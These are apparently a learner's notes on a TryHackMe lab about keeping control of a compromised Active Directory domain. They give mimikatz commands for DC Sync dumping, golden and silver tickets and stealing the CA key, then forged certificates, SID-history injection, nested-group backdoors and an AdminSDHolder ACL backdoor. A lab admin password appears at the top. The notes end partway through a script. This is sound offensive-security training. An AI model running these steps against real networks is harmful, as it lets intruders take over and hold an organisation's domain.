

# Persisting Active Directory

### Persisitence Through Credentials

DA account: Administrator:tryhackmewouldnotguess1@:ZA

**DC Sync**

It is not sufficient to have a single domain controller per domain in large organisations. These domains are 
often used in multiple regional locations, and having a single DC would significantly delay any 
authentication services in AD. As such, these organisations make use of multiple DCs. The question then 
becomes, how is it possible for you to authenticate using the same credentials in two different offices?

The answer to that question is domain replication. Each domain controller runs a process called the Knowledge 
Consistency Checker (KCC). The KCC generates a replication topology for the AD forest and automatically 
connects to other domain controllers through Remote Procedure Calls (RPC) to synchronise information. This 
includes updated information such as the user's new password and new objects such as when a new user is 
created. This is why you usually have to wait a couple of minutes before you authenticate after you have 
changed your password since the DC where the password change occurred could perhaps not be the same one as 
the one where you are authenticating to.

The process of replication is called DC Synchronisation. It is not just the DCs that can initiate 
replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate 
purposes such as creating a new domain controller.

A popular attack to perform is a DC Sync attack. If we have access to an account that has domain replication 
permissions, we can stage a DC Sync attack to harvest credentials from a DC.

**Not All Credentials Are Created Equal**

Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While 
we should always look to dump privileged credentials such as those that are members of the Domain Admins 
group, these are also the credentials that will be rotated (a blue team term meaning to reset the account's 
password) first. As such, if we only have privileged credentials, it is safe to say as soon as the blue team 
discovers us, they will rotate those accounts, and we can potentially lose our access.

The goal then is to persist with near-privileged credentials. We don't always need the full keys to the 
kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team 
look over their shoulder. As such, we should attempt to persist through credentials such as the following:

- Credentials that have local administrator rights on several machines. Usually, organisations have a group 
or two with local admin rights on almost all computers. These groups are typically divided into one for 
workstations and one for servers. By harvesting the credentials of members of these groups, we would still 
have access to most of the computers in the estate.

- Service accounts that have delegation permissions. With these accounts, we would be able to force golden 
and silver tickets to perform Kerberos delegation attacks.

- Accounts used for privileged AD services. If we compromise accounts of privileged services such as 
Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could 
leverage AD exploitation to once again gain a privileged foothold.

When it comes to what credentials to dump and persist through, it is subject to many things. You will have to 
get creative in your thinking and take it on a case-by-case basis. 

**DC Sync All**

As a DA ssh into a jump server (THMWRK1) and start mimikatz

To perform a DC Sync of a single account:

`mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:username`

To DC Sync every account, first enable logging:

```
mimikatz # log /path/to/log/file.txt
Using '/path/to/log/file.txt' for logfile: OK
```

Then run the above command, replacing `/user:` with `/all`

`mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all`

Once done, exit Mimikatz to finalise the dump find and then you can download the file. You can use 
`cat file.txt | grep "SAM Username"` to recover all the usernames and `cat file.txt | grep "Hash NTLM"` for 
all hashes. We can now either perform an offline password cracking attack to recover the plain text 
credentials or simply perform a pass the hash attack with Mimikatz.

### Persistence through Tickets

Persist through service accounts with delegation permissions to forge golden and silver tickets

**Tickets to the Chocolate Factory**

Normal flow for Kerberos Authentication


1. Request TGT - User makes an AS-REQ to the Key Distribution Centre (KDC) on the DC that includes a 
timestamp encrypted with the user's NTLM hash.

2. Receive TGT - The DC checks the information and sends the TGT to the user (AS-REP). This TGT is signed 
with the KRBTGT account's password hash that is only stored on the DC.

3. Request TGS - The user can now send this TGT to the DC to request a Ticket Granting Service (TGS) for the 
resource that the user wants to access (TGS-REQ).

4. Receive TGS - If the TGT checks out, the DC responds to the TGS that is encrypted with the NTLM hash of 
the service that the user is requesting access for (TGS-REP). 

5. Send TGS - The user presents the TGS to the service for access, which can verify the TGS since it knows 
its own hash (AP-REQ)

6. Grant Access - The service grants access to the user.

**Golden Tickets**

Golden Tickets are forged TGTs. What this means is we bypass steps 1 and 2 of the diagram above, where we 
prove to the DC who we are. Having a valid TGT of a privileged account, we can now request a TGS for almost 
any service we want.

In order to forge a golden ticket, we need the KRBTGT account's password hash so that we can sign a TGT for 
any user account we want. Some interesting notes about Golden Tickets:

- By injecting at this stage of the Kerberos process, we don't need the password hash of the account we want
to impersonate since we bypass that step. The TGT is only used to prove that the KDC on a DC signed it. 
Since it was signed by the KRBTGT hash, this verification process is declared valid no matter it's contents.

- Speaking of contents, the KDC will only validate the user account specified in the TGT if it is older than 
20 minutes. This means we can put a disabled, deleted, or non-existent account in the TGT, and it will be 
valid as long as we ensure the timestamp is not older than 20 minutes.

- Since the policies and rules for tickets are set in the TGT itself, we could overwrite the values pushed 
by the KDC, such as, for example, that tickets should only be valid for 10 hours. We could, for instance, 
ensure that our TGT is valid for 10 years, granting us persistence.

- By default, the KRBTGT account's password never changes, meaning once we have it, unless it is manually 
rotated, we have persistent access by generating TGTs forever.

- The blue team would have to rotate the KRBTGT account's password twice, since the current and previous 
passwords are kept valid for the account. This is to ensure that accidental rotation of the password does 
not impact services.

- Rotating the KRBTGT account's password is an incredibly painful process for the blue team since it will 
cause a significant amount of services in the environment to stop working. They think they have a valid TGT, 
sometimes for the next couple of hours, but that TGT is no longer valid. Not all services are smart enough 
to release the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new 
TGT.

- Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified 
by the DC before it creates the TGT.

- We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack 
machine), making it harder for the blue team to detect.

Apart from the KRBTGT account's password hash, we only need the **domain name**, **domain SID**, and **user ID** for the 
person we want to impersonate. If we are in a position where we can recover the KRBTGT account's password 
hash, we would already be in a position where we can recover the other pieces of the required information.

**Silver Tickets**

Silver Tickets are forged TGS tickets. So now, we skip all communication (Step 1-4 in the diagram above) we 
would have had with the KDC on the DC and just interface with the service we want access to directly. Some 
interesting notes about Silver Tickets:

- The generated TGS is signed by the machine account of the host we are targeting.

- The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have 
the KRBTGT account's password hash, we can get access to everything. With a Silver Ticket, since we only 
have access to the password hash of the machine account of the server we are attacking, we can only 
impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted 
on the specific server.

- Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the 
attack incredibly dangerous since the only available logs would be on the targeted server. So while the 
scope is more limited, it is significantly harder for the blue team to detect.

- Since permissions are determined through SIDs, we can again create a non-existing user for our silver 
ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local 
administrators group.

- The machine account's password is usually rotated every 30 days, which would not be good for persistence. 
However, we could leverage the access our TGS provides to gain access to the host's registry and alter the 
parameter that is responsible for the password rotation of the machine account. Thereby ensuring the machine 
account remains static and granting us persistence on the machine.

- While only having access to a single host might seem like a significant downgrade, machine accounts can be 
used as normal AD accounts, allowing you not only administrative access to the host but also the means to 
continue enumerating and exploiting AD as you would with an AD user account.

**Forging Tickets for Fun and Profit**

Use the AD-RSAT cmdlet to find the Domain SID:

`PS > Get-ADDomain`

Then create a golden ticket with mimikatz:

`mimikatz # kerberos::golden /admin:NotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<DOMAIN-SID> /krbtgt:<KRBTGT-HASH> /endin:600 /renewmax:10080 /ptt`

Paramters:

- /admin - The username we want to impersonate. This does not have to be a valid user.
- /domain - The FQDN of the domain we want to generate the ticket for.
- /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
- /sid -The SID of the domain we want to generate the ticket for.
- /krbtgt -The NTLM hash of the KRBTGT account.
- /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The 
default Kerberos policy of AD is 10 hours (600 minutes)
- /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid 
for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
- /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be 
used.

We can verify that the golden ticket is working by running the dir command against the domain controller:

`dir \\thmdc.za.tryhackme.loc\c$\`

To create a silver ticket:

`mimikatz # kerberos::golden /admin:NotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<DOMAIN-SID> /target:<TARGET-HOSTNAME> /rc4:<TARGET-NTLM-HASH> /service:cifs /ptt`

Parameters:

- /admin - The username we want to impersonate. This does not have to be a valid user.
- /domain - The FQDN of the domain we want to generate the ticket for.
- /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
- /sid -The SID of the domain we want to generate the ticket for.
- /target - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any 
domain-joined host.
- /rc4 - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM 
hash of THMSERVER1$. The $ indicates that it is a machine account.
- /service - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
- /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be 
used.

We can verify that the silver ticket is working by running the dir command against the target:

`dir \\THMSERVER1.za.tryhackme.loc\c$\`

### Persistence Through Certificates

**The Return of AD CS**

We leveraged certificates to become Domain Admins but they can also be used for persistence. All we need is 
a valid certificate that can be used for Client Authentication. This will allow us to use the certificate to 
request a TGT. 

We can continue requesting TGTs no matter how many rotations they do on the account we are attacking. The 
only way we can be kicked out is if they revoke the certificate we generated or if it expires. Meaning we 
probably have persistent access by default for roughly the next 5 years. 

Depending on our access, we can take it another step further. We could simply steal the private key of the 
root CA's certificate to generate our own certificates whenever we feel like it. Even worse, since these 
certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even 
worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have 
to be revoked by the blue team to kick us out.

**Extracting the Private Key**

The private key of the CA is stored on the CA server itself. If the private key is not protected through 
hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for 
organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is 
protected by the machine Data Protection API (DPAPI).

This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the 
private key from the CA. Mimikatz is the simplest tool to use, but if you want to experience other tools, 
[have a look here](https://pentestlab.blog/2021/11/15/golden-certificate/).

Extract the certificates from the DC with mimikatz:
`mimikatz # crypto::certificates /systemstore:local_machine `

Certificates from THMDC

```
 * System Store  : 'local_machine' (0x00020000)            
 * Store         : 'My'                                    
                                                           
 0.                                                        
    Subject  :                                             
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA 
    Serial   : 040000000000703a4d78090a0ab10400000010      
    Algorithm: 1.2.840.113549.1.1.1 (RSA)                  
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM                                    
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39                                        
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1 
        Provider       : Microsoft RSA SChannel Cryptographic Provider                         
        Provider type  : RSA_SCHANNEL (12)                                                      
        Type           : AT_KEYEXCHANGE (0x00000001)                                            
        |Provider name : Microsoft RSA SChannel Cryptographic Provider                          
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f 
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1               
        |Implementation: CRYPT_IMPL_SOFTWARE ;                                                               
        Algorithm      : CALG_RSA_KEYX                                                                       
        Key size       : 2048 (0x00000800)                                                                   
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; ) 
        Exportable key : NO                                                                                  

 1. za-THMDC-CA                                            
    Subject  : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA 
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA 
    Serial   : 90e157dae304ef429824a33d3a3ef91e            
    Algorithm: 1.2.840.113549.1.1.1 (RSA)                  
    Validity : 4/27/2022 7:58:15 PM -> 4/27/2027 8:08:09 PM      
    Hash SHA1: c12fcb4b88467854b3d4d7f762adb50b0fd8346e          
        Key Container  : za-THMDC-CA                             
        Provider       : Microsoft Software Key Storage Provider 
        Provider type  : cng (0)                                 
        Type           : CNG Key (0xffffffff)                                                  
        |Provider name : Microsoft Software Key Storage Provider                               
        |Implementation: NCRYPT_IMPL_SOFTWARE_FLAG ;                                           
        Key Container  : za-THMDC-CA                                                           
        Unique name    : 8d666f3049de45dee20c70510f66d2cf_32335b3b-2d6f-4ad7-a061-b862ac75bcb1 
        Algorithm      : RSA                                                                          
        Key size       : 2048 (0x00000800)                                                            
        Export policy  : 00000003 ( NCRYPT_ALLOW_EXPORT_FLAG ; NCRYPT_ALLOW_PLAINTEXT_EXPORT_FLAG ; ) 
        Exportable key : YES                                                                          
        LSA isolation  : NO                                                                           
                                                                                                      
 2. THMDC.za.tryhackme.loc                                                                            
    Subject  : CN=THMDC.za.tryhackme.loc
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA 
    Serial   : 03000000000057c6f9be06e7c78d0300000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: a0e69ecef166b2d785a1b7d615ff730819443d42
        Key Container  : 520b5ca0aec81961ad476939c6792c13_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainController-ccb1e691-6606-40a3-a87a-f549bdcd757c
        |Unique name   : 520b5ca0aec81961ad476939c6792c13_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX 
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; ) 
        Exportable key : NO

 3.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 02000000000078856466521a82570200000010 
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:18 PM -> 4/27/2023 8:32:18 PM 
    Hash SHA1: 0d43237c50ccb446a07572545b5b4c8cf517682a
        Key Container  : 544fc312c893025e32795e06e74c4517_32335b3b-2d6f-4ad7-a061-b862ac75bcb1 
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001) 
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-KerberosAuthentication-21e4d1ee-54f7-4ca5-b36b-b2cecff9a609 
        |Unique name   : 544fc312c893025e32795e06e74c4517_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; ) 
        Exportable key : NO
```

The above private keys aren't exportable, luckily mimikatz allows us to patch memory to make them exportable

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched

```

With these services patched, we can use Mimikatz to export the certificates:

`mimikatz # crypto::certificates /systemstore:local_machine /export`

The exported certificates will be stored in both PFX and DER format to disk

**Generating our own Certificates**

Now that we have the private key and root CA certificate, we can use the [SpectorOps ForgeCert](https://github.com/GhostPack/ForgeCert) tool to 
forge a Client Authenticate certificate for any user we want.

Generate a new certificate:

`ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123`

Parameters explained:

- CaCertPath - The path to our exported CA certificate.
- CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password 
of mimikatz.
- Subject - The subject or common name of the certificate. This does not really matter in the context of 
what we will be using the certificate for.
- SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this 
certificate. It has to be a legitimate user.
- NewCertPath - The path to where ForgeCert will store the generated certificate.
- NewCertPassword - Since the certificate will require the private key exported for authentication purposes, 
we must set a new password used to encrypt it.

We can use Rubeus to request a TGT using the certificate to verify that the certificate is trusted. We will 
use the following command:

`Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<PATH-TO-CERT> /password:<CERT-PASSWORD> /outfile:<TGT-OUTFILE> /domain:za.tryhackme.loc /dc:<DC-IP>`

Use Mimikatz to load the TGT and authenticate to THMDC:

```
mimikatz # kerberos::ptt adminTGT.kirbi

* File: 'adminTGT': OK

C:\>dir \\thmdc.za.tryhackme.loc\c$\
```

**We Are No Longer Friends With The Blue Team**

Certificate persistence is significantly harder to defend against. Even if you rotate the credentials of the 
compromised account, the certificate will still be valid. The only way to remove the persistence is to issue 
a revocation of the certificate. However, this would only be possible if we generated the certificate 
through legitimate channels. Since we exported the CA and generated the certificate ourselves, it does not 
appear on AD CS's list of issued certificates, meaning the blue team will not be able to revoke our 
certificate.

So what's the only solution to remove the persistence? Well, this is why we are no longer friends. They will 
have to revoke the root CA certificate. But revoking this certificate means that all certificates issued by 
AD CS would all of a sudden be invalid. Meaning they will have to generate a new certificate for every 
system that uses AD CS. You should start to see why this type of persistence is incredibly dangerous and 
would require full rebuilds of systems if performed.

### Persisitence through SID History

SIDs are used to track the security principal and the account's access when connecting to resources. There 
is, however, an interesting attribute on accounts called the SID history.

The legitimate use case of SID history is to enable access for an account to effectively be cloned to 
another. This becomes useful when an organisation is busy performing an AD migration as it allows users to 
retain access to the original domain while they are being migrated to the new one.

In the new domain, the user would have a new SID, but we can add the user's existing SID in the SID history, 
which will still allow them to access resources in the previous domain using their new account. While SID 
history is good for migrations, we, as attackers, can also abuse this feature for persistence.

**History Can Be Whatever We Want It To Be**

SID history is not restricted to only including SIDs from other domains. With the right permissions, we can 
just add a SID of our current domain to the SID history of an account we control. Some interesting notes 
about this persistence technique:

- We normally require Domain Admin privileges or the equivalent thereof to perform this attack.
- When the account creates a logon event, the SIDs associated with the account are added to the user's 
token, which then determines the privileges associated with the account. This includes group SIDs.
- We can take this attack a step further if we inject the Enterprise Admin SID since this would elevate the 
account's privileges to effective be Domain Admin in all domains in the forest.
- Since the SIDs are added to the user's token, privileges would be respected even if the account is not a 
member of the actual group. Making this a very sneaky method of persistence. We have all the permissions we 
need to compromise the entire domain (perhaps the entire forest), but our account can simply be a normal 
user account with membership only to the Domain Users group. We can up the sneakiness to another level by 
always using this account to alter the SID history of another account, so the initial persistence vector is 
not as easily discovered and remedied.

**Forging History**

From a Domain Admin SSH or RDP session on the DC

Show low privileged user's SID history to make sure that our low-privilege user does not currently have any 
information in their SID history:

`Get-ADUser username -properties sidhistory,memberof`

Get Domain Admins SID since this the group we want to our SID history:

`Get-ADGroup "Domain Admins"`

Copy the SID and stop the ntds service:

`Stop-Service -Name ntds -force`

Add the copied SID to the low privileged user's history

`Add-ADDBSidHistory -SamAccountName 'username' -SidHistory 'domain admin group SID -DatabasePath C:\Windows\NTDS\ntds.dit`

Start the ntds service again:

`Start-Service -Name ntds`

SSH into a jump server on the network and check we have Domain Admin privileges:

```
powershell Get-ADUser username -Properties sidhistory

dir \\thmdc.za.tryhackme.loc\c$
```

**Pitchforks and Torches from the Blue Team**

If you were to RDP into one of the hosts and use the AD Users and Groups snap-in, you would be able to view 
the SID history attribute added to your user. However, even with the highest possible privileges, you would 
not be able to remove the attribute since it is protected. In order to remove this, you would have to use 
tools such as the AD-RSAT PowerShell cmdlets to remove SID history.

However, before you can even think about removing malicious SID history attributes, you first need to find 
them. None of the regular tools will tell you that something is wrong. That user will not all of a sudden 
pop up as a member of the Domain Admins group. So unless you are actively filtering through the attributes 
of your users, this is incredibly hard to find. This is because the SID history is only applied and used 
once the user authenticates.

Imagine that you are the blue team dealing with an incident where you have just performed a domain takeback. 
You rotated the krbtgt account's password twice, removed golden and silver tickets, and rebuilt your entire 
CA server from scratch, just to see that the attacker is still performing DA commands with a low-privileged 
account. This would not be a great day.

### Persisiting through Group Membership

The most privileged account, or group, is not always the best to use for persistence. Privileged groups are 
monitored more closely for changes than others. Any group that classifies as a protected group, such as 
Domain Admins or Enterprise Admins, receive additional security scrutiny.

If we want to persist through group membership, we may need to get creative regarding the groups we add our 
own accounts to for persistence:

- The IT Support group can be used to gain privileges such as force changing user passwords. Although, 
inmost cases, we won't be able to reset the passwords of privileged users, having the ability to reset even 
low-privileged users can allow us to spread to workstations.
- Groups that provide local administrator rights are often not monitored as closely as protected groups.
With local administrator rights to the correct hosts through group membership of a network support group, we 
may have good persistence that can be used to compromise the domain again.
- It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership 
over Group Policy Objects (GPOs), can be just as good for persistence.

**Nested Groups**

In most organisations, there are a significant amount of recursive groups. A recursive group is a group that 
is a member of another group. We can think of this as group nesting. Group nesting is used to create a more 
organised structure in AD.

Take the IT Support group, for example. IT Support is very generic. So perhaps there are subgroups like 
Helpdesk, Access Card Managers, and Network Managers underneath this group. We can add all of these groups 
as members to the IT Support group, which gives all users in these subgroups the permissions and privileges 
associated with the IT Support group, but we can then assign more granular permissions and privileges for 
each of the subgroups.

While group nesting helps to organise AD, it does reduce the visibility of effective access. Take our IT 
Support example again. If we query AD for membership of the IT Support group, it would respond with a count 
of three. However, this count is not really true since it is three groups. To get an idea for effective 
access, we would now have to enumerate those subgroups as well. But those subgroups can also have subgroups. 
So the question becomes: "How many layers deep should we enumerate to get the real effective access number?"

This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new 
member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is 
added to a subgroup within the Domain Admins group. This is a very common problem since AD is managed by the 
AD team, and alerting and monitoring are managed by the InfoSec team. All we need is a little bit of 
miscommunication, and the alert is no longer valid since subgroups are used.

As an attacker, we can leverage this reduced visibility to perform persistence. Instead of targeting the 
privileged groups that would provide us with access to the environment, we focus our attention on the 
subgroups instead. Rather than adding ourselves to a privileged group that would raise an alert, we add 
ourselves to a subgroup that is not being monitored.

**Nesting our Persistence**

Let's simulate this type of persistence. In order to allow other users also to perform the technique, make 
sure to prepend your username to all the groups that you create. In order to simulate the persistence, we 
will create some of our own groups. Let's start by creating a new base group that we will hide in the 
People->IT Organisational Unit (OU):

`PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security`

Let's now create another group in the People->Sales OU and add our previous group as a member:

```         
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

We can do this a couple more times, every time adding the previous group as a member:

```
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"

PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"

PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
```

Add the last group to Domain Admins:

`PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"`

Lastly, let's add our low-privileged AD user to the first group we created:

`PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"`

Instantly, your low-privileged user should now have privileged access to THMDC. Let's verify this by using 
our SSH terminal on THMWRK1:

`dir \\thmdc.za.tryhackme.loc\c$\`

Let's also verify that even though we created multiple groups, the Domain Admins group only has one new 
member:

`Get-ADGroupMember -Identity "Domain Admins"`

**Annoying More Than Just The Blue Team**

If this was a real organisation, we would not be creating new groups to nest. Instead, we would make use of 
the existing groups to perform nesting. However, this is something you would never do on a normal red team 
assessment and almost always dechain at this point since it breaks the organisation's AD structure, and if 
we sufficiently break it, they would not be able to recover.

At this point, even if the blue team was able to kick us out, the organisation would more than likely still 
have to rebuild their entire AD structure from scratch, resulting in significant damages.

### Persistence through ACLs

**Persisting through AD Group Templates**

While we can just add an account we control to every single privileged group we can find, the blue team 
would still be able to perform cleanup and remove our membership. In order to ensure better persistence and 
make the blue team scratch their heads, we should rather inject into the templates that generate the default 
groups. By injecting into these templates, even if they remove our membership, we just need to wait until 
the template refreshes, and we will once again be granted membership.

One such template is the AdminSDHolder container. This container exists in every AD domain, and its Access 
Control List (ACL) is used as a template to copy permissions to all protected groups. Protected groups 
include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins. If 
you are looking for the full list of groups, you can find [them here](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)).

A process called SDProp takes the ACL of the AdminSDHolder container and applies it to all protected groups 
every 60 minutes. We can thus write an ACE that will grant us full permissions on all protected groups. If 
the blue team is not aware that this type of persistence is being used, it will be quite frustrating. Every 
time they remove the inappropriate permission on the protected object or group, it reappears within the 
hour. Since this reconstruction occurs through normal AD processes, it would also not show any alert to the 
blue team, making it harder to pinpoint the source of the persistence.

**Persisting with AdminSDHolder**

In order to deploy our persistence to the AdminSDHolder, we will use Microsoft Management Console (MMC). To 
avoid kicking users out of their RDP sessions, it will be best to RDP into the jump server using your low 
privileged credentials, use the runas command to inject the Administrator credentials, and then execute MMC 
from this new terminal:

`runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe`

Once you have an MMC window, add the Users and Groups Snap-in
- (File->Add Snap-In->Active Directory Users and Computers)
- Enable Advanced Features (View->Advanced Features)

We can find the AdminSDHolder group under Domain->System

Right-click->Properties->Security on the group

Add our low-privileged user and grant Full Control:

1. Click Add
2. Enter username and click Check Names
3. Click OK
4. Click Allow on Full Control
5. Click Apply
6. Click OK

**SDProp**

Now we just need to wait 60 minutes, and our user will have full control over all Protected Groups. This is 
because the Security Descriptor Propagator (SDProp) service executes automatically every 60 minutes and will 
propagate this change to all Protected Groups. However, since we do not like to wait, let's kick off the 
process manually using Powershell. In the C:\Tools\ directory, a script Invoke-ADSDPropagation is provided:

```
Function Invoke-ADSDPropagation{          
    <#                                    
    .SYNOPSIS                             
        Invoke a SDProp task on the PDCe. 
    .DESCRIPTION
        Make an LDAP call to trigger SDProp.
    .EXAMPLE
        Invoke-ADSDPropagation

        By default, RunProtectAdminGroupsTask is used.

    .EXAMPLE
        Invoke-ADSDPropagation -TaskName FixUpInheritance 

        Use the legacy FixUpInheritance task name for Windows Server 2003 and earlier.
    .PARAMETER TaskName
        Name of the task to use.
            - FixUpInheritance for legacy OS
            - RunProtectAdminGroupsTask for recent OS
    .INPUTS
    .OUTPUTS
    .NOTES
        You can track progress with:
        Get-Counter -Counter '\directoryservices(ntds)\ds security descriptor propagator runtime queue' | Select-Obj
ect -ExpandProperty CounterSamples | Select-Object -ExpandProperty CookedValue
    .LINK
        http://ItForDummies.net
    #>
    [CmdletBinding()]
    Param(
        [Parameter(Mandatory=$false,
            HelpMessage='Name of the domain where to force SDProp to run',
            Position=0)]
        [ValidateScript({Test-Connection -ComputerName $_ -Count 2 -Quiet})]
        [String]$DomainName = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().Name,

        [ValidateSet('RunProtectAdminGroupsTask','FixUpInheritance')]
        [String]$TaskName = 'RunProtectAdminGroupsTask' 
    )

    try{
        $DomainContext = New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('domain',$DomainName) 
        $DomainObject = [System.DirectoryServices.ActiveDirectory.Domain]::GetDomain($DomainContext)

        Write-Verbose -Message "Detected PDCe is $($DomainObject.PdcRoleOwner.Name)."
        $RootDSE = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$($DomainObject.PdcRoleOwner.Name)/Roo
tDSE")
        $RootDSE.UsePropertyCache = $false
        $RootDSE.Put($TaskName, "1") # RunProtectAdminGroupsTask & fixupinheritance
